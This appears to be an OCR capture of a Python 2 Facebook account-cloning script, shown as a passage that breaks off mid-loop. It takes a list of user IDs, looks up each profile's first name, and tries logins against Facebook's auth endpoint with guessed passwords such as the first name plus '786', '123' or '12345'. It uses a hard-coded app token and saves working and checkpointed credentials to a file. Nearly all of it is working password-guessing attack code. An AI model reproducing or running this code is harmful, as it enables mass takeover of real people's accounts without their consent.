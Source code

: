 	
	print "\033[1;36;40m[✺] Total IDs : \033[1;94m"+str(len(id))
	jalan('\033[1;34;40m[✺] Please Wait...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;32;40m[✺] Cloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;94m        ❈     \x1b[1;91mTo Stop Process Press CTRL+Z \033[1;94m    ❈"
	print "   \033[1;31;48m●💋════════════════════════◄►════════════════════════💋●"

	jalan('                    \033[1;91mAahil start cloning Wait...')
	print  "  \033[1;36;48m ●💋════════════════════════◄►════════════════════════💋●" 

	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass 
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name'] + '786'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass1 + ' 👽 ' + b['name']
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass1 + ' 👽 ' + b['name']
					cek = open("out/CP.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name'] + '123'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass2 + ' 👽 ' + b['name']
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass2 + ' 👽 ' + b['name']
							cek = open("out/CP.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '12345'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q: